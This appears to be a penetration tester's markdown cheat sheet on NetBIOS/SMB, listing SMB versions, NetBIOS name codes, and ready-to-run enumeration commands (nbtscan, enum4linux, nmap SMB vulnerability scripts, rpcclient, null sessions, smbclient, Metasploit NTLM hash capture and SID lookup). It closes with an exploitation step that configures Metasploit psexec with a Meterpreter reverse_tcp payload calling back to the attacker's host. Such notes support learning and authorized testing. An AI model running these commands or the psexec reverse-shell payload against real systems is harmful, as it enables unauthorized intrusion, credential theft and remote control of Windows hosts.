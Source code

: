# NetBios (Windows)
- SMB1: Windows 2000, XP, 2003 
	-  eternal blue
- SMB2: Vista SP1, 2008 
- SMB2.1: 7 and 2008 R2 
- SMB3: 8 and Windows 2012 
##### Unique Name
- assigned to a single host

| Code | Unique Name                        |
| :--- | :--------------------------------- |
| 00   | Workstation Service (hostname)     |
| 03   | Windows Messenger service<br>      |
| 06   | Remote Access Service              |
| 20   | File Service (Host Record)         |
| 21   | Remote Access Service client       |
| 1B   | Domain Master Browser (Primary DC) |
| 1D   | Master Browser                     |
##### Group Name
- Name can be shared across multiple hosts

| Code | Group Name                                  |
| :--- | :------------------------------------------ |
| 00   | Workstation Service (workgroup/domain name) |
| 1C   | Domain Controllers for a domain             |
| 1E   | Browser Service Elections                   |


## Enumeration

##### nbtscan for IP, MAC, and Hostname
- udp 137
```bash
nbtscan -r [IP]
```
```bash
nbtscan -r [IP]/[CIDR]
```

##### nmblookup
```bash
nmblookup -A [IP]
```

#### Enum4linux
```bash
enum4linux -a [IP]
```

##### nmap
```bash
nmap -p 135, 445 -script=smb-vulns,smb-os-discovery [IP]
```
```bash
nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smbv2-enabled.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms17-010.nse, smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse,smbv2-enabled.nse [IP] -p 135-139,445
```


### RPCclient
- requires authentication

```bash
rpcclient -U "[USER]" [IP]
```

##### Shows server information
```bash
srvinfo
```

##### Enumerate domain users
```bash
enumdomusers
```

##### Get domain password policy information
```bash
getdompwinfo
```

##### Query domain information (e.g., domain SID, name, etc.)
```bash
querydominfo
```

##### List shared resources (basic share listing)
```bash
netshareenum
```

##### List all shared resources (more complete)
```bash
netshareenumall
```

### Null Session (net)
```bash
net use \\[IP]\[SHARE] "" /u:"" 
```
```bash
net view \\[IP]
```

### SMBMAP

##### Enumerate SMB Shares on Target Host
```bash
Smbmap -H [IP] -R --depth [5]
```

### Smbclient

##### Enumerate SMB shares
```bash
smbclient -L //[IP]
```

##### Enumerate SMB shares (Null Session)
```bash
smbclient -L //[IP] -N
```

##### Authenticated Acess 
```bash
smbclient //[IP]/[SHARE] -U [USER]
```

### Metasploit

##### Capture and Crack NTLMv2 Hashes
```sh
auxiliary/server/capture/smb 
```
```sh
auxiliary/server/capture/http_ntlm
```

##### Enumerate RID's
```bash
use auxiliary/scanner/netbios/nbname
set RHOSTS [IP]
run
```

##### Enumerate SID's
```bash
use auxiliary/scanner/smb/smb_lookupsid
set RHOSTS [IP]
set SMBUser [username]
set SMBPass [password]
run
```


## Exploitation

### Metasploit

##### psexec
```bash
use exploit/windows/smb/psexec
set RHOSTS [IP]
set SMBUser [username]
set SMBPass [password]
set LHOST [Your IP]
set LPORT [Your Port]
set PAYLOAD windows/meterpreter/reverse_tcp
run
```
